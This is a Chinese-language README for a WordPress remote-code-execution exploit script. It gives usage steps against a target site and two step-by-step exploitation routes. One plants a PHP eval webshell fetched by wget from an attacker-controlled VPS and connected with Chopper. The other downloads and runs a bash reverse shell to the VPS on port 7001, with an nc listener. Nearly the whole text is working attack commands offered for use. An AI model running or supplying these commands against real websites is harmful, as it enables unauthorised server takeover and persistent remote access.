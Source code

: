 # WordPress-RCE-EXP
# 0x1漏洞检测

```
python3 wp_rce_exp.py <目标> <目标站存在的用户名>

Python3 wp_rce_exp.py http://127.0.0.1/ admin
```
# 0x2漏洞利用
出现
Test_blind_shell>>>
后，说明网站存在RCE漏洞
有两种方式来漏洞利用

### 一、写入Webshell

 1.在vps上开web服务，在web目录下的test.txt文件中写入一句话
```
<?php @eval($_POST[test]); ?>
```

 
2.目标使用wget下载到web目录上
(注意vps需要用ip地址，前面不能加http://)
```
Test_blind_shell>>>/usr/bin/wget --output-document /var/www/html/shell.php VPS的ip/shell.txt
```
3.使用菜刀连接网站根目录的shell.php

### 二、反弹shell: 
1.在vps上开web服务，写shell.txt文件内容为 
```
bash -i >& /dev/tcp/VPS的ip/7001 0>&1
```


2.在VPS上使用nc监听7001端口 命令：

```
nc -lvp 7001
```


3.目标使用wget下载到/tmp目录/test.sh
```
Test_blind_shell>>>/usr/bin/wget --output-document /tmp/test.sh VPS的ip/shell.txt
```
4.执行下载到本地的脚本文件

```
Test_blind_shell>>>/usr/bash ./tmp/test.sh
```
注意命令执行需要加上绝对路径例如/bin/bash 有些特殊字符不能使用例如&分号引号等
